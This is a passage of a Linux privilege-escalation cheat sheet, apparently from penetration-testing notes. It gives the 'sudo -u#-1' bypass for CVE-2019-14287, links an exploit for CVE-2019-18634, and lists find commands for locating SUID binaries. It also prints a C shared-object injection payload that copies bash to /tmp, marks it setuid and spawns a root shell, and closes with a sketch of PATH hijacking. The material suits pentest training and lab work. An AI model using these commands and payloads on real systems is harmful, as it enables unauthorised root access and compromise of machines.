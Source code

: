#### *Abusing CVE-2019-14287 (sudo version <1.8.28)*

[CVE-2019-14287](https://www.exploit-db.com/exploits/47502) Comes in handy if we can sudo as any user, except root (`!root`).

1. Check sudo version: `sudo -V`

2. If the sudo version is below 1.8.28, use this command to run as root: `sudo -u#-1 <COMMAND>`

#### *Abusing CVE-2019-18634 (sudo version <1.8.26)*
[Exploit for CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634). Works if `pw feedback` is present.

1. Check sudo version: `sudo -V`

2. Run the exploit.

## **[SUID]**

*Abuse the SUID files to gain privs.*

### *Search for SUID Files*

    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
    
### *Share Object Injection*

Look to replace / create a file being called in a script.

```
#include <stdio.h>                                                          
#include <stdlib.h>                                                         
                                                                            
static void inject() __attribute__((constructor));                          
                                                                            
void inject() {                                                             
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p"); 
}
```

Compile: `gcc -shared -o <NAME>.so -fPIC <NAME>.c`

### *Binary Symlink*

[WIP]

### *Environmental Variables*

We are looking at scripts that make use of the `$PATH` shortcuts.

To see what kind of `$PATH` shortcut may be used, we can run the `strings` command to read the script.

If a shortcut is being used, we abuse the `$PATH` and "hijack" it. In order to do so, a malicious script must be ran instead of the intended command.
